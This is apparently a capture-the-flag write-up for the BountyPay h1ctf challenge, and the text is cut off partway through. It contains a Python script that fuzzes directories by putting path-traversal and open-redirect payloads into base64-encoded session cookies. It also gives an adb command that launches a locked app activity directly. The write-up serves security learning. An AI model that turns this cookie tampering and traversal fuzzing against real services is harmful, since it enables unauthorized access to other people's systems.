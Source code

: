 from itertools import combinations 
import requests
import base64

SECLIST_FILE = './dicc.txt' ## file path

with open(SECLIST_FILE,'r') as f:
  for word in f.readlines():
    value = str.encode('{"account_id":"../../../../../redirect?url=https://software.bountypay.h1ctf.com/' + word.rstrip("\n") + '#","hash":"de235bffd23df6995ad4e0930baac1a2"}')
    token_value = base64.b64encode(value).decode('utf-8')
    response = requests.get('https://app.bountypay.h1ctf.com/statements?month=01&year=2020', cookies={'token':token_value})
    if not "Not Found" in str(response.content, word):
      print(response.content)
```
Short history long: like Burp Suite intruder but in Python. 

The code generates payloads with the values obtained from SECLIST_FILE file and request it with the cookie encoded to base64.

 It the response was not "Not Found", then the code printed the response. 

My code responsed with *uploads*:

{F861418}

And an APK file showed it up!

Going to https://software.bountypay.h1ctf.com/uploads/BountyPay.apk, I got the APk file.

## APK BOUNTY PAY: the funniest part of the show!

To this part, I just used MobSF and ADB (and my androin phone, of course).

I installed the APK file in my phone and I just saw this screen after login in:

{F862372}

Just a button that get you some hints and no more...

Taking a look to the source code using MobSF you can see that challenges was divided in three parts.

### PartOneActivity.java :

Deeping into source code, one snipet caught my attention:

{F862379}

That said my that, if you pass some parameters to APK activity, you will go to part two!!

Ok!! So, using this ADB command (and reading this awesome report https://hackerone.com/reports/328486, thanks @bagipro) 

``` adb shell am start -n bounty.pay/bounty.pay.PartOneActivity -a android.intent.action.SEND -d "one://?start=PartTwoActivity"```

I  passed to the next level.

### PartTwoActivity.java

The second screen seemed like first one, but with other hints( Current Invisible and Visible with the right params).

{F862384}
```